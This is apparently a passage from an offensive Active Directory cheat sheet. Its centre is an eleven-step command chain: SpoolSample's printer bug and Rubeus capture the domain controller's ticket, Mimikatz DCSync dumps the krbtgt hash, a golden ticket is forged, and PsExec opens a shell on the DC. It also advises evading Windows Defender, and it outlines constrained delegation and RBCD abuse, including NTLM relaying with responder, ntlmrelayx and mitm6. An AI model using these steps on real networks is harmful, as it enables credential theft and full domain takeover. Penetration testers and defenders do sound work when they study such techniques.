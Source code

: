 ##### By using of SpoolSample.exe (printer bug)

```console
1 - Download and compile SpoolSample in a dev machine, it can be downloaded from: https://github.com/leechristensen/SpoolSample
2 - Download and compile Rubeus in a dev machine, it can be downloaded from: https://github.com/GhostPack/Rubeus
3 - Find a way to upload SpoolSample and Rubeus without being detected (for example, disabling Windows Defender, or injecting them into memory through reflection for example), for ease of the technique, all below is just written to disk
4 - Rubeus.exe monitor /interval:5 /filteruser:DC01$ <-- Monitor for TGTs originated in the DC01 machine. THIS MUST BE RUN FROM A DIFFERENT SHELL THAN THE ONE USED FOR THE NEXT STEP
5 - SpoolSample.exe DC01 VICTIM01 <-- Leverage "RpcOpenPrinter" and "RpcRemoteFindFirstPrinterChangeNotification" to get a notif
6 - Rubeus.exe ptt /ticket:<b64-from-rubeus-monitor> <-- Inject into memory the b64 ticket obtained by monitoring for tickets from DC01 to VICTIM01
7 - lsadump::dcsync /domain:example.com /user:example\krbtgt <-- Dump the NTLM hash of the krbtgt user by leveraging the just injected ticket (It could also be possible to dump the hash of the pass of a member from the "Domain Admins" group). THIS IS RUN FROM INSIDE MIMIKATZ
8 - kerberos::golden /user:krbtgt /domain:example.com /sid:<sid-showed-in-dcsync or obtained by PowerView> /rc4:<ntlm-hash-dumped-with-dcsync> /ptt <-- Craft a golden ticket and inject it into memory
9 - dir \\dc01\\c$ <-- Verify read access on dc01
10 - misc::cmd <-- Open cmd prompt from inside Mimikatz
11 - C:\Windows\Temp\PsExec.exe -accepteula \\dc01 cmd <-- Get a shell on dc01 by leveraging the golden ticket injected
```

#### Constrained Delegation

We have compromised a computer/user account configured for Constrained Delegation (ie, the account's UserAccountControl attribute contains the value `TRUSTED_TO_AUTH_FOR_DELEGATION`). If it is, it's A MUST to look also after `msDS-AllowedToDelegateTo` account's property, this will have one or more hostnames/SPNs where our account will be allowed to impersonate any (non-sensitive/unproctected) user in the domain.

We have 2 scenarios where we can have Constrained Delegation:

* 1 - We have command execution in the account in question, but not know the password for it
* 2 - We know the NTLM hash, or at least can get the hash from the NTLM hash

#### Resource-Based Constrained Delegation (RBCD)

Only found if we are working on an envrionment which is running domain controllers with Windows Server 2012 or higher.
This one is complex than the Unconstrained/Constrained.

The scenarios where we can leverage this are:

* 1 - Computer/User account compromised listed in another computer account's msDS-AllowedToActOnBehalfOfOtherIdentity attribute. Used to leverage ANY user account on the host which has the property
* 2 - Computer/User account which has GenericWrite to another computer account in the domain, can be leveraged to add the account compromised to the msDS-AllowedToActOnBehalfOfOtherIdentity attribute on the target and afterwards impersonate ANY user account.
* 3 - We don't have credentials, but we can get to relay a hash with responder/impacket-ntlmrelayx/mitm6 to LDAP and create a new computer account and add it to the msDS-AllowedToActOnBehalfOfOtherIdentity property. Later on impersonate any user.